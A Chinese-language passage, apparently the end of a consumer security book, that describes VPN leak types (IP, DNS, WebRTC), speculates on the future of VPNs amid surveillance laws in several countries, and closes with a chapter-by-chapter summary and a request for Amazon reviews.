

然而，正确设置你的系统的秘诀始于在选好路由器之前选择一家可靠的 VPN 提供商。一旦解决了这个问题，剩下的就只是时间问题。尽管如此，在选择 VPN 路由器时，路由器的处理能力是一个需要考虑的重要因素。

## VPN 泄漏

尽管使用 VPN 服务对在线隐私和安全有诸多好处，但 VPN 提供商面临的一个严重问题是数据泄漏的挑战。数据泄漏有多种类型，其主要目的是在你对设备或计算机使用 VPN 时破坏你的安全和隐私。以下是你在使用 VPN 服务时可能会遇到的 VPN 泄漏类型：

- **IP 地址泄漏** – 这通常意味着你的 IP 地址从 VPN 隧道中泄漏，从而暴露……


## IP 泄漏

关乎您的安全与位置信息。这种泄漏可能是暂时的、短暂的，也可能是持续性的，具体取决于您何时发现它。罪魁祸首通常是 IPv6 地址，而您使用的 VPN 并未正确阻止或支持 IPv6。

-   **DNS 泄漏** – 这种情况通常发生在 DNS 请求从 VPN 隧道中泄漏，且您的互联网服务提供商开始处理这些请求时。它可能会暴露您的位置、互联网服务提供商的 IP 地址以及您的浏览历史记录。
-   **WebRTC 泄漏** – 这个问题通常出现在使用 WebRTC API 的 Brave、Chrome、Firefox 或任何基于 Chromium 的浏览器中。这种泄漏会通过浏览器暴露您的 IP 地址。遗憾的是，无论您使用的是可靠或优质的 VPN，此问题均无法避免。不过，您可以在浏览器中修复这些问题。

为避免 IP 地址、浏览历史记录、位置或信息发生任何泄漏，定期测试您的 VPN 以检查是否存在任何泄漏、问题或长期可能影响您的漏洞至关重要。

## VPN 的未来

坦诚而言，我已经从 VPN 相关的互联网隐私和安全性的所有可能角度进行了探讨。VPN 的前景一片光明，即使许多人并非出于正确的原因而使用它。在线审查、企业跟踪和大范围监控将继续成为 VPN 高使用率的主要驱动力。我们已经看到，互联网服务提供商越来越多地阻止访问各种网站，范围从种子文件网站到成人内容网站不等。

此外，用户对隐私和监控的担忧正在迅速增加。例如，在以下国家：

-   英国被认为是对隐私最不友好的国家。电信公司和互联网服务提供商被法律强制要求记录客户的短信、所有浏览历史记录以及客户位置。这些数据无需搜查令即可提供给英国政府机构。
-   在美国，服务提供商可以合法地记录浏览详情、短信，并将信息出售给广告商。此外，他们还有义务在需要时向监控机构提供相关信息。
-   澳大利亚面临类似挑战，政府已实施强制性数据保留计划，要求电信运营商收集通话、短信和互联网连接数据。

显然，在网络上进行各种活动如果不使用可靠的 VPN，您将暴露于世界上的各种危险之中。因此，为了保护您的数据并阻止网络犯罪分子侵入您的隐私，在您设备或计算机系统中安装 VPN 服务是毋庸置疑的。如果您想保护您的数据，线上隐私和安全至关重要。

## 结语

感谢您阅读完《黑客基础安全》的全文，希望本书能提供有益的信息，并为您展示各种有效的安全方法以及管理网络风险的最佳方式。此外，希望您已经了解并掌握了各种意识计划、攻击与防御策略工具，以规避任何攻击。

鉴于网络空间面临的日益严峻的网络和隐私问题，本书所包含的信息极其宝贵。它包含了保护您免受网络或计算机未经授权的访问所需的一切。

我已广泛讨论了与您的隐私和网络挑战相关的各种主题。让我来总结一下我们在本书中迄今所学的内容。在第一章中，我强调了网络安全的基础知识和重要性，以及网络安全的各个因素。确实，这是您黑客基础安全的开端。

在高级情境下理解网络安全至关重要。因此，我探讨了各种类型的网络安全、网络安全威胁，以及保护您的网络免受病毒和恶意软件侵害的基本技巧。除此之外，还存在网络安全漏洞。了解这些数据安全漏洞的含义、不同类型的数据安全漏洞以及相关的预防工具，对于保障您的网络和计算机系统的的安全至关重要。

此外，在第四章和第五章中，我向你们介绍了黑客能够有效地对您的系统造成破坏的基本手段。您将更深入地了解恶意软件和病毒。另外，您将学习恶意软件的检测、预防和清除过程，以及如何预防计算机病毒。

您对加密有什么了解？您如何反击黑客的攻击？第七章更深入地探讨了加密、这些黑客的假设，以及加密的好处和未来。此外，您将学习如何使用防火墙，以及良好的防火墙应具备的各种重要功能。最后，在第九章中，您了解了虚拟专用网络。确实，它包含了对 VPN 的全面解释，它们在在线隐私中的作用，以及它们的安全性。此外，您还学习了如何设置您的 VPN，如何将路由器连接到它，以及 VPN 的未来。

确实，您值得竖起大拇指，因为您已经具备了有效监控在线安全所需的信息。我确信，您能够利用防御和攻击策略管理任何形式的网络风险，从而在与网络犯罪分子的战斗中占据先机。

最后，如果您以任何方式认为本书有用，欢迎在亚马逊上留下评价！
